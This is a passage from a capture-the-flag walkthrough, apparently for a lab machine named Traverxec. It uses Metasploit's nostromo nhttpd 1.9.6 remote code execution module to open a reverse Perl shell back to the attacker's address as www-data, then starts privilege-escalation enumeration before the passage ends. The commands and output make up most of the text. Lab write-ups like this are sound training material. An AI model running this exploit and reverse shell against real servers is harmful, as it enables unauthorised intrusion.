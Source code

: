 
## TCP/80 (HTTP) - nostromo/nhttpd 1.9.6 RCE (Metasploit)
1. Launch `msfconsole`
2. Search for `nhttpd`
	```
	msf6 > search nhttpd
	
	Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nostromo_code_exec
	
	msf6 > use 0
	[*] Using configured payload cmd/unix/reverse_perl
	msf6 exploit(multi/http/nostromo_code_exec) >
	```
3. Set `OPTIONS`
	```
	msf6 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
	RHOSTS => 10.10.10.165
	msf6 exploit(multi/http/nostromo_code_exec) > set LHOST tun0
	LHOST => 10.10.14.14
	```
4. Exploit!
	```
	msf6 exploit(multi/http/nostromo_code_exec) > exploit
	
	[*] Started reverse TCP handler on 10.10.14.14:4444
	[*] Running automatic check ("set AutoCheck false" to disable)
	[+] The target appears to be vulnerable.
	[*] Configuring Automatic (Unix In-Memory) target
	[*] Sending cmd/unix/reverse_perl command payload
	[*] Command shell session 2 opened (10.10.14.14:4444 -> 10.10.10.165:33328 ) at 2022-09-25 05:44:11 +0800
	
	shell
	[*] Trying to find binary 'python' on the target machine
	[*] Found python at /usr/bin/python
	[*] Using `python` to pop up an interactive shell
	[*] Trying to find binary 'bash' on the target machine
	[*] Found bash at /usr/bin/bash
	id
	id
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	www-data@traverxec:/usr/bin$
	```
	![]({{ page.img_path }}Pasted%20image%2020220925054440.png)



# Privilege Escalation

## David - Enumeration
1. Find out the location of the root web directory
	```
	www-data@traverxec:/var/nostromo/conf$ find / 2>/dev/null | grep "portfolio_01.jpg"
	/var/nostromo/htdocs/img/portfolio/portfolio_01.jpg
	```
	- `/var/nostromos`
2. View files in `/var/nostromos`
	```
	www-data@traverxec:/var/nostromo$ ls -la
	total 24
	drwxr-xr-x  6 root     root   4096 Oct 25  2019 .
	drwxr-xr-x 12 root     root   4096 Oct 25  2019 ..